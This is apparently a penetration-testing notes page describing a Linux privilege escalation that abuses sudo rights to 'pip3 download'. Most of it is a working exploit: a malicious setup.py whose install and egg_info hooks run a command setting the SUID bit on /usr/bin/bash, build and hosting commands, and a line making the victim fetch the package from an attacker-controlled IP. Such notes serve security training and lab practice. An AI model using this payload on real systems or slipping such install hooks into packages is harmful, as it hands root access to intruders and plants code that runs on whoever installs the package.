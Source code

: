 # Pip Download Code Execution

## Theory 

Pip is a package management system written in Python. It can download custom Python package so we can create a malicious package to execute arbitrary code.

## Practice 

{% tabs %}
{% tab title="Enumerate" %}
Assume that `pipe download` can be executed as root with sudo rights. if we controll its input, then its vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/pip3 download http\://*.tar.gz
```
{% endtab %}

{% tab title="Exploit" %}
On attacking machine, we can clone the [this_is_fine_wuzzi](https://github.com/wunderwuzzi23/this_is_fine_wuzzi) GitHub repo, or create our own source for the pip package as follow:

- Assuming the package name is `MySimplePackage`. We need to create the following files and folders: `setup.py` in the project root, and `init.py`, `main.py` in src directory.
```bash
mkdir MySimplePackage && cd MySimplePackage
touch setup.py
mkdir src
touch src/__init__.py
echo 'print("hello")' > src/main.py
```

- write something similar in the `setup.py` file. You may edit the `RunCommand()` function.
```python
# setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info

def RunCommand():
	# Arbitrary code here!
	import os;os.system("chmod u+s /usr/bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "MySimplePackage",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

- Build the malicious package
```bash
# If you don't have modules below, install them first.
pip3 install setuptools
pip3 install build

# Build - It generates .tar.gz file in dist folder.
python3 -m build
```

Finally host the package and run the `pip download` on the victime machine
```bash
sudo /usr/bin/pip3 download http://<ATTACKING_IP>/MySimplePackage-0.0.1.tar.gz
```

{% hint style="info" %}
We can host the package using `pypi-server`
```bash
# Install the module if you don't have it
pip3 install pypiserver

# Copy the tar.gz file into the "package" folder.
mkdir package
cp ./MySimplePackage/dist/MySimplePackage-0.0.1.tar.gz ./package
pypi-server run -v -p 8000 ./package
```

And download it as follow
```bash
pip3 download exploitpy --index-url https://localhost:8000 -v
```
{% endhint %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/" %}
